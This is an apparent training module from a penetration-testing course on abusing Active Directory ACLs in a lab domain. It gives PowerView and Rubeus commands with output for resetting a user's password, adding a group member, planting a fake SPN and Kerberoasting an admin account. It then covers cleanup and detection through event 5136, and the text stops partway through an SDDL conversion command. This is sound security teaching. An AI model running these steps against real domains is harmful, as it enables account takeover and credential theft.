


# ACL Abuse Tactis
## Abusing ACLs
Once again, to recap where we are and where we want to get to. We are in control of the `wley` user whose NTLMv2 hash we retrieved by running Responder earlier in the assessment. Lucky for us, this user was using a weak password, and we were able to crack the hash offline using Hashcat and retrieve the cleartext value. We know that we can use this access to kick off an attack chain that will result in us taking control of the `adunn` user who can perform the DCSync attack, which would give us full control of the domain by allowing us to retrieve the NTLM password hashes for all users in the domain and escalate privileges to Domain/Enterprise Admin and even achieve persistence. To perform the attack chain, we have to do the following:

1. Use the `wley` user to change the password for the damundsen user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

So, first, we must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. 

### Creating a PSCredential Object

```pwsh
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

### Creating a SecureString Object

```pwsh
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

### Changing the User's Password

```pwsh
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```

Next, we need to perform a similar process to authenticate as the damundsen user and add ourselves to the Help Desk Level 1 group.

### Creating a SecureString Object using damundsen

```pwsh
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

### Adding damundsen to the Help Desk Level 1 Group
Next, we can use the Add-DomainGroupMember function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. 

```pwsh
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

CN=Stella Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Marie Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Jerrell Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Evelyn Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
CN=Juanita Marrero,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

```pwsh
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'damundsen' to group 'Help Desk Level 1'
```

### Confirming damundsen was Added to the Group

```pwsh
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed

<SNIP>

damundsen
dpayne
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the `Information Technology` group for this to be successful. Since we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership. We can now use `Set-DomainObject` to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN

```pwsh
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking. 

### Kerberoasting with Rubeus

```pwsh
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : adunn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=adunn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : adunn
[*] DistinguishedName      : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : notahacker/LEGIT
[*] PwdLastSet             : 3/1/2022 11:29:08 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

## Cleanup
In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the adunn user.
2. Remove the damundsen user from the Help Desk Level 1 group
3. Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user

### Removing the Fake SPN from adunn's Account

```pwsh
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'adunn'
```

### Removing damundsen from the Help Desk Level 1 Group

```pwsh
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Remove-DomainGroupMember] Removing member 'damundsen' from group 'Help Desk Level 1'
True
```

### Confirming damundsen was Removed from the Group

```pwsh
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

## Detection and Remediation
If we look at the event log after modifying the ACL of the domain object, we will see some event ID `5136` created:

### Viewing Event ID 5136



If we check out the `Details` tab, we can see that the pertinent information is written in Security Descriptor Definition Language (SDDL) which is not human readable.

### Viewing Associated SDDL



### Converting the SDDL String into a Readable Format

```pwsh
PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CR;00299570-246d-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;3e0f7e18-2c7a-4c10-ba82-4d926db99a3e;;S-1-5-21-3842939050-3880317879-2865463114-522)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-498)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;DD)(OA;CI;CR;89e95b76-444d-4c62-991a-0facbeda640c;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CC;4828cc14-1437-45bc-9b07-ad6f015e5f28;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967a86-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967a9c-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967aa5-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967aba-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;5cb41ed0-0e4c-11d0-a286-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;RP;4c164200-20c0-11d0-a768-00aa006e0529;;S-1-5-21-3842939050-3880317879-2865463114-5181)(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;9a7ad945-ca53-11d1-bbd0-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;bf967991-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967a06-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967a0a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;3e74f60e-3e73-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;b1b3a417-ec55-4191-b327-b72e33e38af2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf96791a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;9a9a021e-4a5b-11d1-a9c3-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;934de926-b09e-11d2-aa06-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;5e353847-f36c-48be-a7f7-49685402503c;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;8d3bca50-1d7e-11d0-a081-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967953-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;e48d0154-bcf8-11d1-8702-00c04fb96050;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;275b2f54-982d-4dcd-b0ad-e53501445efb;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967954-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;bf967961-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf967a68-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;5fd42471-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;5430e777-c3ea-4024-902e-dde192204669;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;6f606079-3a82-4c1b-8efb-dcc8c91d26fe;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;bf967a7a-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;bf967a7f-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;614aea82-abc6-4dd0-a148-d67a59c72816;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;66437984-c3c5-498f-b269-987819ef484b;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;77b5b886-944a-11d1-aebd-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;a8df7489-c5ea-11d1-bbcb-0080c76670c0;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;1f298a89-de98-47b8-b5cd-572ad53d267e;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;f0f8ff9a-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;2cc06e9d-6f7e-426a-8825-0215de176e11;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;5fd424a1-1262-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;3263e3b8-fd6b-4c60-87f2-34bdaa9d69eb;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;WP;28630ebc-41d5-11d1-a9c1-0000f80367c1;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;3e0abfd0-126a-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;WP;7cb4c7d3-8787-42b0-b438-3c5d479ad31e;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-3842939050-3880317879-2865463114-526)(OA;CI;RPWP;5b47d60f-6090-40b2-9f37-2a4de88f3063;;S-1-5-21-3842939050-3880317879-2865463114-527)(OA;CI;DTWD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;DTWD;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CCDCLCRPWPLO;f0f8ffac-1191-11d0-a060-00aa006c33ed;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CI;CCDCLCRPWPLO;e8b2aff2-59a7-4eac-9a70-819adef701dd;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5172)(OA;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;018849b0-a981-11d2-a9ff-00c04f8eedd8;;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;SD;;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967a86-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967aa5-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;SD;;5cb41ed0-0e4c-11d0-a286-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;CIIO;SW;9b026da6-0d3c-465c-8bee-5199d7165cba;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a86-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967a9c-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;RP;b7c69e6d-2cc7-11d2-854e-00a0c983f608;bf967aba-0de6-11d0-a285-00aa003049e2;ED)(OA;CIIO;WP;ea1b7b93-5e48-46d5-bc6c-4df4fda78a35;bf967a86-0de6-11d0-a285-00aa003049e2;PS)(OA;CIIO;CCDCLCSWRPWPDTLOCRSDRCWDWO;;c975c901-6cea-4b6f-8319-d67f45449506;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CIIO;CCDCLCSWRPWPDTLOCRSDRCWDWO;;f0f8ffac-1191-11d0-a060-00aa006c33ed;S-1-5-21-3842939050-3880317879-2865463114-5187)(OA;CINPIO;RPWPLOSD;;e8b2aff2-59a7-4eac-9a70-819adef701dd;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;89e95b76-444d-4c62-991a-0facbeda640c;;BA)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;1131f6ae-9c07-11d1-f79f-00c04fc2dcd2;;BA)(OA;;CR;e2a36dc9-ae17-47c3-b58b-be34c55ba633;;S-1-5-32-557)(OA;CIIO;LCRPLORC;;4828cc14-1437-45bc-9b07-ad6f015e5f28;RU)(OA;CIIO;LCRPLORC;;bf967a9c-0de6-11d0-a285-00aa003049e2;RU)(OA;CIIO;LCRPLORC;;bf967aba-0de6-11d0-a285-00aa003049e2;RU)(OA;;CR;05c74c5e-4deb-43b4-bd9f-86664c2a7fd5;;AU)(OA;;CR;89e95b76-444d-4c62-991a-0facbeda640c;;ED)(OA;;CR;ccc2dc7d-a6ad-4a7a-8846-c04e3cc53501;;AU)(OA;;CR;280f369c-67c7-438e-ae98-1d46f3c6f541;;AU)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;;CR;1131f6ae-9c07-11d1-f79f-00c04fc2dcd2;;ED)(OA;CI;RP;b1b3a417-ec55-4191-b327-b72e33e38af2;;NS)(OA;CI;RP;1f298a89-de98-47b8-b5cd-572ad53d267e;;AU)(OA;CI;RPWP;3f78c3e5-f79a-46bd-a0b8-9d18116ddc79;;PS)(OA;CIIO;RPWPCR;91e647de-d96f-4b70-9557-d63ff4f3ccd8;;PS)(A;;CCLCSWRPWPLOCRRCWDWO;;;DA)(A;CI;LCSWRPWPRC;;;S-1-5-21-3842939050-3880317879-2865463114-5213)(A;CI;LCRPLORC;;;S-1-5-21-3842939050-3880317879-2865463114-5172)(A;CI;LCRPLORC;;;S-1-5-21-3842939050-3880317879-2865463114-5187)(A;CI;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3842939050-3880317879-2865463114-519)(A;;RPRC;;;RU)(A;CI;LC;;;RU)(A;CI;CCLCSWRPWPLOCRSDRCWDWO;;;BA)(A;;RP;;;WD)(A;;LCRPLORC;;;ED)(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;CI;LCRPWPRC;;;AN)S:(OU;CISA;WP;f30e3bbe-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(OU;CISA;WP;f30e3bbf-9ff0-11d1-b603-0000f80367c1;bf967aa5-0de6-11d0-a285-00aa003049e2;WD)(AU;SA;CR;;;DU)(AU;SA;CR;;;BA)(AU;SA;WPWDWO;;;WD)" 

Owner            : BUILTIN\Administrators
Group            : BUILTIN\Administrators
DiscretionaryAcl : {Everyone: AccessDenied (WriteData), Everyone: AccessAllowed (WriteExtendedAttributes), NT
                   AUTHORITY\ANONYMOUS LOGON: AccessAllowed (CreateDirectories, GenericExecute, ReadPermissions,
                   Traverse, WriteExtendedAttributes), NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS: AccessAllowed
                   (CreateDirectories, GenericExecute, GenericRead, ReadAttributes, ReadPermissions,
                   WriteExtendedAttributes)...}
SystemAcl        : {Everyone: SystemAudit SuccessfulAccess (ChangePermissions, TakeOwnership, Traverse),
                   BUILTIN\Administrators: SystemAudit SuccessfulAccess (WriteAttributes), INLANEFREIGHT\Domain Users:
                   SystemAudit SuccessfulAccess (WriteAttributes), Everyone: SystemAudit SuccessfulAccess
                   (Traverse)...}
RawDescriptor    : System.Security.AccessControl.CommonSecurityDescriptor
```

If we choose to filter on the `DiscretionaryAcl` property, we can see that the modification was likely giving the `mrb3n` user `GenericWrite` privileges over the domain object itself, which could be indicative of an attack attempt.

```pwsh
PS C:\htb> ConvertFrom-SddlString "O:BAG:BAD:AI(D;;DC;;;WD)(OA;CI;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CR;00299570-246d-11d0-a768-00aa006e0529;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;4828cc14-1437-45bc-9b07-ad6f015e5f28;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;CIIO;CCDCLC;c975c901-6cea-4b6f-8319-d67f45449506;bf967aba-0de6-11d0-a285-00aa003049e2;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;3e0f7e18-2c7a-4c10-ba82-4d926db99a3e;;S-1-5-21-3842939050-3880317879-2865463114-522)(OA;;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-498)(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-5186)(OA;;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;DD)(OA;CI;CR;89e95b76-444d-4c62-991a-0facbeda640c;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CR;1131f6aa-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-3842939050-3880317879-2865463114-1164)(OA;CI;CC;4828cc14-1437-45bc-9b07-ad6f015e5f28;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967a86-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967a9c-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967aa5-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;bf967aba-0de6-11d0-a285-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;CC;5cb41ed0-0e4c-11d0-a286-00aa003049e2;;S-1-5-21-3842939050-3880317879-2865463114-5189)(OA;CI;RP;4c164200